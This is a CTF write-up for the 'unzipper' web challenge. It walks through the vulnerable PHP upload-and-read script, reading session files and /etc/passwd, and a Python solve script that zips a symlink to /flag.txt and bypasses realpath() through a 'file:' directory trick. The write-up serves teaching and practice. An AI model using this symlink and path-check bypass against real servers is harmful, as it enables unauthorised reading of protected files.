# unzipper

**Category**: web \
**Difficulty**: medium \
**Points**: 172 points (49 solves) \
**Author**: hlt

Here, let me unzip that for you.

Download: [unzipper.tar.xz](unzipper.tar.xz)
Connection: http://65.108.176.76:8200/

## Overview

Another small challenge:

```php
<?php
session_start() or die('session_start');

$_SESSION['sandbox'] ??= bin2hex(random_bytes(16));
$sandbox = 'data/' . $_SESSION['sandbox'];
$lock = fopen($sandbox . '.lock', 'w') or die('fopen');
flock($lock, LOCK_EX | LOCK_NB) or die('flock');

@mkdir($sandbox, 0700);
chdir($sandbox) or die('chdir');

if (isset($_FILES['file']))
    system('ulimit -v 8192 && /usr/bin/timeout -s KILL 2 /usr/bin/unzip -nqqd . ' . escapeshellarg($_FILES['file']['tmp_name']));
else if (isset($_GET['file']))
    if (0 === preg_match('/(^$|flag)/i', realpath($_GET['file']) ?: ''))
        readfile($_GET['file']);

fclose($lock);
```

- We can upload a zip, and the server will unzip it for us in a randomly-named
  sandbox directory. They use these `unzip` parameters:
  - `-n`: Do not overwrite existing files when unzipping
  - `-qq`: Quiet output

- We have arbitrary file read: http://65.108.176.76:8200/?file=/etc/passwd
  - However, `realpath()` returns the absolute pathname, resolving relative
    directories and symlinks.
  - The return value of `realpath()` can't contain `flag`, so simply reading
    `/flag.txt` is not possible.

- The lock file is to prevent race conditions with script running in the
  background that periodically deletes uploaded files

## Solution

> Solved with Youssef

First notice that we can use the `PHPSESSID` cookie and read our `$_SESSION` data from `/var/lib/php/sessions/`. This allows us to get `$sandbox`:

```python
import requests
import os

url = "http://65.108.176.76:8200"

s = requests.Session()
res = s.get(url)
sess_id = s.cookies["PHPSESSID"]
print(f"[+] PHPSESSID = {sess_id}")

res = s.get(f"{url}/?file=/var/lib/php/sessions/sess_{sess_id}")
sandbox = res.text.split(":")[-1].split(";")[0][1:-1]
print(f"[+] sandbox = {sandbox}")
```

```
[+] PHPSESSID = t7fl8v188kg8gd0ai3c3be0qq1
[+] sandbox = 29eca32e80f80d0230f27ddcb3a90377
```

Next I tried uploading a symlink to `/flag.txt` inside a zip and reading the symlink using `http://65.108.176.76:8200/?file=/var/www/html/data/{sandbox}/{symlink}`, but that didn't work because `realpath()` simply resolved the path to `/flag.txt`, which failed the check:

```php
    if (0 === preg_match('/(^$|flag)/i', realpath($_GET['file']) ?: ''))
        readfile($_GET['file']);
```

At this point Youssef had to idea of using `file://`.

What if we created a zip file with this directory structure?
```
$ ls --tree file: leak.lnk
file:
└── var
   └── www
      └── html
         └── data
            └── ccf86389404367cb06bab3ba41c71c27
               └── leak.lnk (symlink to /flag.txt)
leak.lnk -> /flag.txt
```

```
root@229a6d68a68b:/var/www/html/data/ccf86389404367cb06bab3ba41c71c27# psysh
Psy Shell v0.11.0 (PHP 7.4.25 _ cli) by Justin Hileman
>>> realpath('file:///var/www/html/data/ccf86389404367cb06bab3ba41c71c27/leak.lnk');
=> "/var/www/html/data/ccf86389404367cb06bab3ba41c71c27/file:/var/www/html/data/ccf86389404367cb06bab3ba41c71c27/leak.lnk"
>>> readfile('file:///var/www/html/data/ccf86389404367cb06bab3ba41c71c27/leak.lnk');
hxp{fleg}
=> 10
```

Notice that `realpath()` does the following translation
```
file:///var/www/html/data/ccf86389404367cb06bab3ba41c71c27/leak.lnk
file:/var/www/html/data/ccf86389404367cb06bab3ba41c71c27/leak.lnk
```
which it interprets as a relative file path. Notice that this `leak.lnk` is not a symlink to `/flag.txt`, but actually just an empty directory.

The actual symlink to `/flag.txt` is located in `/var/www/html/data/ccf86389404367cb06bab3ba41c71c27/leak.lnk`, which `readfile()` will read.

Props to Youssef for coming up with this solution!

```python
import requests
import os

url = "http://65.108.176.76:8200"

s = requests.Session()
res = s.get(url)
sess_id = s.cookies["PHPSESSID"]
print(f"[+] PHPSESSID = {sess_id}")

res = s.get(f"{url}/?file=/var/lib/php/sessions/sess_{sess_id}")
sandbox = res.text.split(":")[-1].split(";")[0][1:-1]
print(f"[+] sandbox = {sandbox}")

symlink = "leak.lnk"
file_url = f"file:///var/www/html/data/{sandbox}/{symlink}"

os.system("rm -rf leak.lnk go.zip file:")
os.system(f"ln -s /flag.txt leak.lnk")
os.system(f"mkdir -p {file_url}")
os.system(f"zip --symlinks -r go.zip file: {symlink}")

files = {"file": open("go.zip", "rb")}
res = s.post(f"{url}", files=files)
res = s.get(f"{url}/?file={file_url}")
print(res.text)
```

```
$ python3 solve.py
[+] PHPSESSID = 10a5nlegdvdl0o99a6e5khkedm
[+] sandbox = a8a188a8460b7a11b7bbad7f2a8562c6
  adding: file:/ (stored 0%)
  adding: file:/var/ (stored 0%)
  adding: file:/var/www/ (stored 0%)
  adding: file:/var/www/html/ (stored 0%)
  adding: file:/var/www/html/data/ (stored 0%)
  adding: file:/var/www/html/data/a8a188a8460b7a11b7bbad7f2a8562c6/ (stored 0%)
  adding: file:/var/www/html/data/a8a188a8460b7a11b7bbad7f2a8562c6/leak.lnk/ (stored 0%)
  adding: leak.lnk (stored 0%)
hxp{at_least_we_have_all_the_performance_in_the_world..._lolphp_:/}
```

## Note

The challenge set `php_admin_value[allow_url_fopen] = 0`. However, this still
lets use use PHP's various [stream
wrappers](https://www.php.net/manual/en/wrappers.php). Notice `file://` is not
restricted by `allow_url_fopen`, as indicated here:
https://www.php.net/manual/en/wrappers.file.php

You can also see this in the [source code](https://github.com/php/php-src/blob/PHP-7.4.25/main/streams/streams.c#L1865), where `plain_files_wrapper->is_url == 0`.
